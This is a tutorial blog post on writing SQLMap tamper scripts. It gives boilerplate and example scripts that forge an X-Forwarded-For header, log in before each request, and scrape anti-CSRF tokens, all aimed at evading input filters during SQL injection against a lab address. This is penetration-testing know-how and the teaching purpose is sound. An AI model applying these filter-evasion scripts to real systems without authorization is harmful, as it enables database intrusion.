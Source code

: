 ```yaml
---
layout: post
title: Writing your own SQLMap Tamper Scripts
date: 2023-09-05 11:44 -0400
categories: [Python]
tags: [boilerplate, sqlmap, python, cheat sheet, hacking]
---
```


I wrote a SQLMap tamper script that helped me out in something that vanilla SQLMap could not. The issue was that in order for a SQL Injection to be possible, the payload needed to bypass a `preg_match()` function check which looked for blacklisted characters. Basically, what I needed to do was insert a newline before the payload, and finish the payload with a number. Enter a tamper script!

This is the boilerplate script to work with, but first don't forget to create an empty `__init__.py` script so sqlmap can properly import your tamper script:

```terminal
$ touch __init__.py
```

Now here's the script to work with:

```python
#!/usr/bin/env python3

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
        This accepts the payload that SQLMap will send to the
        target, then returns the formatted payload
    """

    if payload:
        # Do stuff to the payload here. Probably best to
        # set a new variable and return that once you
        # manipulate it however.
        pass

    return payload
```

To execute, do this:

```terminal
$ sqlmap --tamper tamper_script.py [...]
```

This, along with all the other flags necessary for the request, will execute your tamper script for each SQLMap request sent.

## Explanation

This can be broken down in a few parts.

### Priority

This is local to SQLMap. Essentially whatever you specify in the `__priority__` variable will be used by SQLMap to determine the order in which tamper scripts will be executed. The values are:

- `PRIORITY.LOWEST`
- `PRIORITY.LOWER`
- `PRIORITY.LOW`
- `PRIORITY.NORMAL`
- `PRIORITY.HIGH`
- `PRIORITY.HIGHER`
- `PRIORITY.HIGHEST`

where the highest priority will execute first.

### Dependencies

A majority of the time you will most likely only need to set this to be a function that returns nothing and just issues the `pass` directive. However, I've seen other tamper scripts that call the `singleTimeWarnMessage()` function to specify a warning before using. If you want to do the same, you can do something like this:

```python
# usual python stuff around the above boilerplate tamper script

from lib.core.common import singleTimeWarnMessage
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    singleTimeWarnMessage("This is a warning from your tamper script!")
```

### **kwargs

From what I can gather, there are 3 different keyword arguments that are passed to each request: `delimiter`, `headers`, and `hints`. For most situations that I've ever seen (or used) with tamper scripts, I've only modified the headers in transit. To accomplish this, you need to first get the headers using the `.get()` builtin, modify the variable, and it will pass the new header onto each request. For example, if I wanted to modify the `X-Forwarded-For:` cookie, I can do this:

```python
def tamper(payload, **kwargs):
    """
        Update each request with forged X-FORWARDED-FOR header
    """
    headers = kwargs.get("headers", {})
    headers["X-FORWARDED-FOR"] = "127.0.0.1"
    return payload
```

## More Actions to Tamper With

Remember that this is python, so you can set up as many functions or general actions you'd like for each request to ensure that you are sending the proper data. Given this, I can do some other fun things, like create an account and pass the cookie to the next page for each payload

### Log In Before SQLi

```python
#!/usr/bin/env python3

import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

CREATE_ACCT_URL = "http://10.20.30.40/login.php"

def dependencies():
    pass

def new_login(URL):
    """
    This will log in and return the PHPSESSID
    """
    data = {"user": "agr0", "pass": "letmein"}
    r = requests.post(URL, data=data)
    return r.cookies.get("PHPSESSID", None)

def tamper(payload, **kwargs):
    """
    This will pass the payload onto the target after it obtains a new PHPSESSID
    """
    if payload:
        new_sess_id = new_login(CREATE_ACCT_URL)
        headers = kwargs.get("headers", {})
        headers["Cookie"] = f"PHPSESSID={new_sess_id}"
    return payload
```

### Bypass Anti-CSRF Token

Yes, there is already a built-in feature with SQLMap that allows you to check for and include a CSRF token, but for the sake of the argument, let's build it ourselves in a tamper script.

```python
#!/usr/bin/env python3

import requests
import re
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

CSRF_URL = "http://10.20.30.40/form.php"

def dependencies():
    pass

def get_CSRF(URL):
    """
    This will make an initial request to get the CSRF token
    """
    r = requests.post(URL)
    csrf_pull = re.compile(r'<input name="csrf_tok" type="hidden" value="(.*)" />')
    return csrf_pull.search(r.text).group(1)

def tamper(payload, **kwargs):
    """
    This will pass the payload onto the target after it obtains a new PHPSESSID
    """
    if payload:
        csrf = get_CSRF(CSRF_URL)
        payload += f"&csrf_tok={csrf}"
    return payload
```

### Second Order Injections

Sometimes it's not the initial data that returns a valid SQL Injection, but rather data pulled _from the database itself_ that returns a valid SQL Injection. This is known as a Second Order Injection. Honestly I can't do a better writeup than is mentioned at [Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap), so there you go.

## Epilog

As you can see, you can add any number of functions and actions to each and every SQLMap request being sent. There is a lot to cover with SQLMap, but writing your own tamper scripts should be easy (and honestly, better documented. There isn't much to go on out there).